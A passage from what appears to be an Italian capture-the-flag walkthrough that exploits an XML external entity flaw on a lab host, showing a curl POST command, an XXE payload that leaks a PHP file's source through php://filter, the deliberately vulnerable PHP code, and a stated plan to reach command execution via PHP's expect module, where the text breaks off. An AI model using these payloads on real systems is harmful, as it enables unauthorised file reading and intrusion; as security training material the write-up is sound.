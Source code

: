 A questo punto cerchiamo altre informazioni utili sul sistema.
Per rendere piu' agevole i test e poterne salvare con semplicita' i risultati utilizziamo la shell come sotto :

Creiamo un file cookies.txt e editiamo con il corpo xml sopra e poi eseguiamo la richiesta http in questo modo :

```
curl -d @cookies.txt -X POST http://192.168.1.140/w4n770p14y494m3/game2.php | grep -v " does not exist"
```


A questo punto proviamo a eseguire un leak del sorgente per vedere cosa fa.
Come sotto :

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ELEMENT email ANY >
<!ELEMENT password ANY >
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=game2.php">
]>

<root>
	<email>&xxe;</email>
   <password>aaa</password>
</root>
```


Otteniamo un risultato che ci fa capire che il login e' solo fittizio, non e' presente ne un reale processo di autenticazione ne alcun database di backend.
Sotto il codice sorgente della pagina game2.php :



```
<?php
libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$info = simplexml_import_dom($dom);
$email = $info->email;
$password = $info->password;
echo "$email does not exist";
?>
```


Testate le possibili alternative con file .dtd remoto di appoggio, ma da una analisi delle tempistiche di risposta possiamo dedurre che le connessioni verso l'esterno sono bloccate e che la risposta dello script php ritorna quando si esaurisce il tempo di timeout della connessione.
Dopo aver dato un'occhiata a qualche file interessante all'interno del filesystem, notiamo che possiamo solo leggere file specifici di cui conosciamo a priori il percorso, ma non possiamo fare altro, come enumerare servizi, directory, creare file ecc...
Per cercare di aggirare l'ostacolo, proviamo a verificare se e' possibile ottenere anche un rce sfruttando il modulo expect di php, che se installato permette di eseguire comandi di sistema con i permessi del servizio web.
Modifichiamo il file di richiesta cookies.txt come sotto :

